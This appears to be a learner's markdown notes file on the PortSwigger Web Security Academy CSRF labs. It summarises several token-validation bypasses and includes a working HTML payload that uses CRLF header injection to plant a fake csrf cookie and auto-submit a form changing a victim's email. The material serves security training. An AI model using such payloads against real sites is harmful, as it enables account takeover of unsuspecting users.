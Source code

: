 # CSRF

## Practitioner
- CSRF where token validation depends on request method
    - Notice that CSRF validation does not exist for GET requests. Use the exploit server to stage a RCE which automatically triggers a GET request to the /change-email endpoint and submits on page load.
- CSRF where token validation depends on token being present
    - Similar exploit, but it's a POST request and simply does not include the CSRF token.
- CSRF where the token is not tied to the user session
    - Similar–– craft a malicious form using the unused CSRF token from another user to trick the server.
- CSRF where token is tied to non-session cookie
- CSRF where token is duplicated in cookie
    - Since the server merely checks if the csrf token matches the cookie, we stage an exploit to update the search query parameter sink to set a fake crsf cookie, and set the csrf token to the same fake value.
    ```
    <form action="https://0ae800630314cfa683893c200074004f.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="evil@hacker.net" />
    <input type="hidden" name="csrf" value="fake" />
    </form>
    <img src="https://0ae800630314cfa683893c200074004f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();" />
    ```